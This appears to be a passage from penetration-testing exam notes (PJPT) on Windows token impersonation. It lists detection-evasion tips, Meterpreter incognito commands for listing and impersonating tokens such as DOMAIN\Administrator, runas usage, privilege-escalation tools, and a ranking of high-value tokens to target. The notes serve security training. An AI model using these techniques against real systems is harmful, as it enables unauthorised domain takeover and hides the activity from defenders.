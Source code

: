 ### Evasion Techniques  
```bash
# 1. Minimize time spent with impersonated token
impersonate_token DOMAIN\\Administrator
# Do what you need quickly
rev2self

# 2. Use legitimate-looking process names
# Instead of cmd.exe, use:
# - powershell.exe
# - rundll32.exe  
# - regsvr32.exe

# 3. Avoid well-known admin account names if possible
# Target: backup operators, service accounts, etc.
```

## Tool Reference

### Native Windows Tools
```bash
# whoami - Check current token information
whoami /all
whoami /priv
whoami /groups

# runas - Run commands as different user  
runas /user:domain\administrator cmd.exe
```

### Third-Party Tools
```bash
# Incognito (Metasploit module) - Token impersonation
# Invoke-TokenManipulation.ps1 - PowerShell token manipulation
# Cobalt Strike - Advanced token operations
# JuicyPotato/RoguePotato - Privilege escalation to get tokens
# PrintSpoofer - Modern privilege escalation
```

## PJPT Exam Tips

### For the PJPT Exam
1. **Always check for tokens after gaining SYSTEM access**
   ```bash
   load incognito
   list_tokens -u
   ```

2. **Prioritize high-value tokens**
   - Domain Admin accounts
   - Enterprise Admin accounts  
   - Backup Operators
   - Service accounts with elevated rights
